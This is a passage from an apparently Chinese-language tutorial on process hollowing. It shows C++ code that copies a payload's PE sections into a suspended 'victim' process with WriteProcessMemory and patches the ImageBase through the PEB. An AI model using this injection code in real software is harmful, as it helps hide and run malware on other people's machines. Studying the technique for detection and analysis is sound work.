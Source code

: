 ![pe_header](images/pe_header.jpg)

内存保护常数为`0x40`（**PAGE_EXECUTE_READWRITE**）意思是**启用对已提交页面区域的执行、只读或读/写访问**

```
// 内存保护常数
// https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants
```

移动资源节中的PE程序到被挂起的程序的地址空间。

接下来的操作就是通过循环复制每一个节表到被挂起的程序中。

![image-20220316171308815](images/copysections.png)

代码如下

```c++
for (idx = 0; idx < pNtHeaders->FileHeader.NumberOfSections; ++idx)
  {
    pSectionHeader = (PIMAGE_SECTION_HEADER)lpSectionBaseAddr;
    WriteProcessMemory(pi.hProcess,
      (LPVOID)((DWORD)lpNewVictimBaseAddr + pSectionHeader->VirtualAddress),
      (LPCVOID)((DWORD)lpMalwareBaseAddr + pSectionHeader->PointerToRawData),
      pSectionHeader->SizeOfRawData,
      NULL);
    lpSectionBaseAddr = (LPVOID)((DWORD)lpSectionBaseAddr + sizeof(IMAGE_SECTION_HEADER));
  }
```

然后继续复制资源PE文件到虚拟地址空间，期间通过`PEB+8`定位`ImageBase`。

![image-20220316172009076](images/peb22.png)

代码如下

```
DWORD dwImageBase = pNtHeaders->OptionalHeader.ImageBase;
WriteProcessMemory(pi.hProcess, (LPVOID)(context.Ebx + 8), (LPCVOID)&dwImageBase, sizeof(PVOID), NULL);
```
